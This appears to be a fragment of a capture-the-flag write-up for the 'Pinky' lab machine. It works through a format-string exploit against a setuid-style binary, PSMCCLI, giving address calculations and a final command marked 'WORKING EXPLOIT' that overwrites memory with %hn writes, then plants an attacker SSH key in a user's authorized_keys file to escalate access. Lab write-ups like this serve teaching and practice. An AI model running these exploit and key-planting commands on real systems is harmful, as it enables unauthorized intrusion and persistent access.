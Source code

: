 To calculate the location of our shellcode in decimal two websites were used.

http://www.csgnetwork.com/hexaddsubcalc.html
https://www.rapidtables.com/convert/number/hex-to-decimal.html


    0xbffffe95 # orginal address of shellcode

first half=49151
second half=65173-12bytes = 65161


![negative calculated decimal](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554134903223_image.png)
![added ’1” to hex value](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1554134948057_image.png)


second half first

    /usr/local/bin/PSMCCLI $(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")CCCC%65161x%134\$hn

first half second - **extra 1 added to** `**0xbfff**` **now** `**0x1bfff**`

    /usr/local/bin/PSMCCLI $(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")CCCC%65161x%134\$hn%49514x%135\$hn


WORKING EXPLOIT

    /usr/local/bin/PSMCCLI $(printf "\x1c\xa0\x04\x08\x1e\xa0\x04\x08")CCCC%65161x%134\$0hn%49514x%135\$0hn

![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553986109665_image.png)


![](https://paper-attachments.dropbox.com/s_E629904ADD63961C3017402B2CAC04CCE6B65A453AE29E259CD60CE0EC42430D_1553986412562_file.png)




# Priv-esc from Pinky

first and foremost move to create SSH key

Create ssh-keygen locally as done before:

    ssh-keygen -t rsa -b 2048

![User-uploaded image: image.png](https://paper-attachments.dropbox.com/s_7A09BEDD0EDA038254090457BE7CF3F0AA3EBA1021DECE0A8FA63DE4EF27D05D_1553983048094_image.png)


echo key to `.ssh/authorized_keys`

    echo ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5GexhwQxG5bgT+NteOrDkUKXctV/MBSG1svAzYzUS98YuR2Rc9fctKyuxF5v7nQTkSpJKYiasarF14MtEm3N2JOIUiJapBWh9yncuYkuC/dpv/guvxcQHcIHbr8me0L817T9ozJEUlrhvShzwcuG3o+ie4HWY4DdV+duFLahSgdURhS6mYKrfwUXnTFQc4HvAQ7gjkAgDmayWv7i5CEaaW/1DqKsefImT+JjhuDtprinXExxGqCim9Eyr1NB+c1goBFdevOwRe/taS3urHXy62/QFyrIaPDkR6shKVkpqY+qvfiqG5Q8LXiLoWXNs6u07XUNlrkz2AMi+xraJyN33 root@execatwill > /home/pinky/.ssh/authorized_keys

![](https://paper-attachments.dropbox.com/s_7A09BEDD0EDA038254090457BE7CF3F0AA3EBA1021DECE0A8FA63DE4EF27D05D_1553983075757_image.png)
